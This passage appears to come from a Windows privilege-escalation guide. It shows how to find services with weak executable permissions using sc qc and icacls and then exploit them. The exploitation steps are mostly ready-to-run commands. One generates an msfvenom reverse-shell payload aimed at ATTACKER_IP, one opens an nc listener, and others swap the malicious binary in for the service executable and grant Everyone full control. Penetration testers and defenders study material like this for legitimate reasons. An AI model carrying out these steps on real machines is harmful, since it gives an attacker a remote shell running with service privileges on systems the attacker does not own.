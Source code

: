 ## Checking Service Configuration

```cmd
# Query service configuration
sc qc SERVICE_NAME

# Example
sc qc wuauserv
```

Key information to look for:
- BINARY_PATH_NAME: The path to the executable
- SERVICE_START_NAME: The account used to run the service

## Method 1: Insecure Permissions on Service Executable

If the service's executable has weak permissions allowing modification, we can replace it with a malicious executable.

### Identifying Vulnerable Services

```cmd
# Check service executable permissions
icacls "C:\path\to\service.exe"

# Look for permissions like:
# - BUILTIN\Users:(F) or (M) - Full control or Modify
# - Everyone:(F) or (M)
# - Authenticated Users:(F) or (M)
```

### Exploitation Steps

1. Generate a malicious executable:
   ```bash
   # On Kali Linux:
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o malicious.exe
   ```

2. Create a listener:
   ```bash
   nc -lvp 4445
   ```

3. Transfer the executable to Windows target (using wget, certutil, etc.)

4. Replace the service executable:
   ```cmd
   # Backup original (optional)
   move C:\path\to\service.exe C:\path\to\service.exe.bak
   
   # Copy malicious executable
   copy malicious.exe C:\path\to\service.exe
   
   # Ensure proper permissions
   icacls C:\path\to\service.exe /grant Everyone:F
   ```
